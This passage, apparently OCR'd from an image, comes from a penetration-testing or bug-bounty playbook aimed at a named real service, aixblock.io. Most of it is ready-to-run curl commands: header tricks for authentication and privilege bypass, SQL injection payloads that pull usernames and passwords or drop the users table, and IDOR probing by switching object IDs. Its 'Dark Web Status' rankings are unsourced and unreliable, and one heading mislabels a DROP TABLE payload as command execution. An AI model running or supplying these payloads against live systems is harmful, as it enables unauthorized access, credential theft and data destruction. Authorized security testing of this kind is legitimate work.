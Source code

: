 4. **Test for Authentication Bypass**
   ```bash
   # Test for authentication bypass via headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: authenticated" \
     -H "X-Auth: true"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: admin" \
     -H "X-Admin: true"
   ```

5. **Demonstrate Clear Exploitation Impact**
   - Show successful HTTP response splitting
   - Demonstrate cache poisoning
   - Prove security control bypass
   - Show authentication bypass

---

## **🎯 PHASE 3: DISCOVERY OF HIGH-VALUE VULNERABILITIES**

### **🔴 PRIORITY 1: SQL INJECTION**
**Dark Web Status**: #2 most common vulnerability
**Testing Strategy**:

```bash
# Authentication bypass
curl "https://api.aixblock.io/api/v1/auth/login" \
  -d "username=admin&password=' OR 1=1--"

# Data extraction
curl "https://api.aixblock.io/api/v1/users?id=' UNION SELECT username,password FROM users--"

# Command execution
curl "https://api.aixblock.io/api/v1/query?sql='; DROP TABLE users; --"

# Blind SQL injection
curl "https://api.aixblock.io/api/v1/endpoint?id=1' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--"
```

### **🔴 PRIORITY 2: IDOR (Insecure Direct Object References)**
**Dark Web Status**: #1 most common vulnerability
**Testing Strategy**:

```bash
# Test object ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/projects/123" \
  -H "Authorization: Bearer <token>"

# Change project_id from 123 to 124
curl -X GET "https://api.aixblock.io/api/v1/projects/124" \
  -H "Authorization: Bearer <token>"

# Test user ID manipulation
curl -X GET "https://api.aixblock.io/api/v1/users/1" \
  -H "Authorization: Bearer <token>"

# Change user_id from 1 to 2
curl -X GET "https://api.aixblock.io/api/v1/users/2" \
  -H "Authorization: Bearer <token>"

```